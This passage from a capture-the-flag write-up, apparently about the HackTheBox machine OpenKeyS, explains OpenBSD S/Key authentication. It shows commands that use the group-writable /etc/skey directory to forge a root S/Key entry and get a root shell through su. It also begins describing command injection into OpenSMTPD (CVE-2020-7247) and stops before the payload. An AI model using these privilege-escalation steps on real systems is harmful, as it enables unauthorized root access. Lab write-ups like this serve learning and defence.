 

This file shows the user, the hash algorithm, the sequence number, the
seed to be used with the hash, and the next result.

The other thing to know about S/Key - so the user doesn't have to type
in a long, hex string, the hash is broken up into six short words, one
to four characters each. For example `3F3B F4B4 145F D74B` is
represented as `TAG SLOW NOV MIN WOOL KENO`.

#### Exploit Background

The issue here is that the `/etc/skey` directory is writable by the
`auth` group:



    openkeys$ ls -ld /etc/skey
    drwx-wx--T  2 root  auth  512 Jun 24 09:25 /etc/skey



This means that as `auth`, I can write a config file into the directory
for any user, including root, and then authenticate against S/Key to get
a shell.

#### Execute

With a shell in the `auth` group, I'll write the file and change the
permissions to 600:



    openkeys$ echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root
    openkeys$ chmod 0600 /etc/skey/root



I actually can't look at the result, but it is in there. Now I can run
`su` to get a shell as root. I'll use `-l` to actually login, `-a skey`
to specify S/Key auth. The POC also uses `env -i TERM=vt220` to clear
the environment and then set the terminal on running. I can run without
that, but then I'm prompted for the terminal type. When prompted for the
password, I'll enter "EGG LARD GROW HOG DRAG LAIN", because I know from
the script that is what is expected for the seed 8b6d96e0ef1b1c21. Then
it returns a root shell.



    openkeys$ env -i TERM=vt220 su -l -a skey
    otp-md5 99 obsd91335
    S/Key Password:                                                                                         
    openkeys#



## Beyond Root

### Unintended Root - CVE-2020-7247

A few days after this box was submitted, a new CVE for OpenBSD was
released,
[CVE-2020-7247](https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt),
allowing for command injection into the SMTP daemon. OpenKeyS is
vulnerable to it. I'll connect to port 25 on localhost. The connection
will hang for several minutes while it tries to resolve a DNS query to
8.8.8.8. Eventually, it will return with it's 220 statement. I'll
identify as jennifer, and then send a malicious `MAIL FROM:` with a
command injection. I'll find a valid recipient (jennifer again), and
then send an empty email:
